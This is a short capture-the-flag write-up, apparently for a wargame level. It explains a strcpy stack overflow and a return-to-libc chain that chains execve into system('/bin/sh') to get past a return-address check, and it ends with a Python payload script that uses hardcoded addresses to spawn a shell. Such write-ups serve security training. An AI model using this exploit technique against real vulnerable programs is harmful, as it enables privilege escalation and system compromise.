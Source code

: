 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
This program copys argv[1] to buffer by using strcpy function that does not check boundary.

The protection code makes me to use execve address, not system address.

# Exploitation

I can use execve but my method uses execve's return address.
```
-------------------------------------------------------------------------------------------------------------------------------
| buffer[40] | SFP[4] | RET(execve) | execve's ret(system's address) | system's ret(AAAA) | system's param(/bin/sh's address) |
-------------------------------------------------------------------------------------------------------------------------------
```

This payload can bypass Return Address check and after exit execve function with wrong param, the system function will be executed with param(/bin/sh's address).

# Payload
```python
import os
payload = ""
payload = payload + "A"*44
payload = payload + "\x48\x9d\x0a\x40" # execve's address
payload = payload + "\xe0\x8a\x05\x40" # execve's ret(system's address)
payload = payload + "AAAA" # system's ret
payload = payload + "\xf9\xbf\x0f\x40" # /bin/sh

os.execv("/home/bugbear/giant", ["", payload])
```
